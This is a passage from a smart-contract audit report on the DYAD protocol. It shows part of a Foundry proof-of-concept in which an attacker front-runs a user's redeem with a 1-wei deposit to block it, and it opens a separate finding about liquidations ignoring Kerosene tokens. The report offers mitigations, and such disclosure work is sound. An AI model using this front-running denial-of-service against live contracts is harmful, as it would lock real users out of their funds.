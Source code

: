 ```solidity
    // ============================== Attack ==============================
    // Alice wants to redeem her dyad or withdraw her colalteral
    // Bob notices the transaction so he decides to front-runs it and deposit on behalf of her
    vm.startPrank(bob);
    IWETH(MAINNET_WETH).approve(address(vaultManagerV2), 1); // @audit 1 wei is enough
    vaultManagerV2.deposit(aliceDNFT, address(ethVault), 1);
    vm.stopPrank();

    vm.startPrank(alice);
    bytes4 expectedErrorSelector = bytes4(keccak256("DepositedInSameBlock()"));
    vm.expectRevert(abi.encodeWithSelector(expectedErrorSelector));
    vaultManagerV2.redeemDyad(aliceDNFT, address(ethVault), 1 ether, alice); // @audit Alice wansn't able to make the redeem
  }
}
```
> **NOTE**: Notice that `Base2Test::setUp` is forking from Ethereum mainnet using an RPC, make sure to set your proper Mainnet RPC
```bash
forge test --mt test_malicious_actor_can_DoS_redeem_or_withdraw

[PASS] test_malicious_actor_can_DoS_redeem_or_withdraw() (gas: 294705)
```
## Tools Used
Manual review
## Recommended Mitigation Steps
There are two possible mitigations, and it is up to the dev team to decide the proper one
1. Restrict a minimum deposit value when making a deposit. The minimum value should disincentivize malicious actors from exploiting the attack.
2. Replace the modifier `isValidDNft` with `isDNftOwner` on `deposit`

# H-03 The liquidation process does not take into account the Kerosene tokens
## Impact
Liquidators call [liquidate](https://github.com/code-423n4/2024-04-dyad/blob/4a987e536576139793a1c04690336d06c93fca90/src/core/VaultManagerV2.sol#L205-L228) function to liquidate DNfts with a collateral ratio lower than `MIN_COLLATERIZATION_RATIO`. The function moves the exogenous vaults assets held by the liquidated DNft to a DNft specified by the liquidator:
```solidity
uint numberOfVaults = vaults[id].length();
for (uint i = 0; i < numberOfVaults; i++) {
  Vault vault      = Vault(vaults[id].at(i));
  uint  collateral = vault.id2asset(id).mulWadUp(liquidationAssetShare);
  vault.move(id, to, collateral);
}
emit Liquidate(id, msg.sender, to);
```
The issue here is that the logic presented in the function does not take into account the Kerosene held by the liquidated DNft as it is not moved and stays in the balance of the liquidated DNft. This kerosene left will not be included in the `20% bonus` as stated by the docs:
> The liquidator burns a quantity of DYAD equal to the target Note’s DYAD minted balance, and in return receives an equivalent value **plus a 20% bonus of the target Note’s backing collateral**.
